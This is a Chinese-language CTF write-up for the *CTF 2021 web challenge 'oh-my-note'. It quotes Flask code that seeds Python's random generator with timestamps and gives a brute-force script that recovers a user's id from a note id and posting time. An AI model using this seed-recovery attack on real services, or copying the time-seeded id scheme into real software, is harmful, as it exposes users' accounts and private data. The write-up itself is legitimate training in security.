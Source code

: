 ```yaml
---
title: '*CTF 2021 Web部分 Writeup'
date: 2021-01-18 15:58:02
tags:
    - Writeup
    - CTF
    - \*CTF
---
```


## oh-my-note

签到题，观察源码：

```python
@app.route('/create_note', methods=['GET', 'POST'])
def create_note():
    ...
        if request.method == "POST":
            ...
            else:
                timestamp = round(time.time(), 4)
                random.seed(timestamp)
                user_id = get_random_id()
                ...
            timestamp = round(time.time(), 4)
            post_at = datetime.datetime.fromtimestamp(timestamp, tz=datetime.timezone.utc).strftime('%Y-%m-%d %H:%M UTC')
            random.seed(user_id + post_at)
            note_id = get_random_id()

            note = Note(user_id=user_id, note_id=note_id,
                        title=title, text=text,
                        prv=prv, post_at=post_at)
    ...
```

不难发现可以根据文章发布的时间反推seed拿到对应用户的id

```python
import random
import string
import datetime
ts = 1610677740
te = 1610677800
target = 'lj40n2p9qj9xkzy3zfzz7pucm6dmjg1u'

def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])

for t in range(ts, te):
    for i in range(9999):
        timestamp = 0.0001 * i + t
        random.seed(timestamp)
        user = get_random_id()
        time = datetime.datetime.fromtimestamp(
            t, tz=datetime.timezone.utc
        ).strftime('%Y-%m-%d %H:%M UTC')
        random.seed(user + time)
        post = get_random_id()
        if post == target:
            print(timestamp, user)
```
